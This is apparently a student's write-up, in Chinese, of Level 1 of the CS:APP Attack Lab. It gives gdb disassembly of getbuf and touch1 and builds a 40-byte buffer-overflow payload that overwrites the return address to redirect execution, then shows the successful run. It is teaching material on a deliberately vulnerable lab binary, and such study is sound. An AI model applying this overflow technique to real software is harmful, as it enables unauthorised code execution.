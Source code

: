 # LAB3 attack lab
## Part I: Code Injection Attacks 
### Level1 
读入字符串，通过test进入touch1。
```
(gdb) disas test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	retq   
End of assembler dump.
```
仔细看getbuf
```
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
```
根据`$0x28,%rsp`最大可读入39个字符串，结尾"\0"。
```
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.
```
根据上述代码可知，touch1入口地址为`0x00000000004017c0` 。

故答案应为`40个任意字符 + c0 17 40 ` ，字符串结尾有00 。通过hex2raw创造超过128的字符
```
(gdb) r -q < exploit-raw.txt
Starting program: /home/kevin/csapp/lab3/target1/ctarget -q < exploit-raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 C0 17 40 
[Inferior 1 (process 3193) exited normally]
```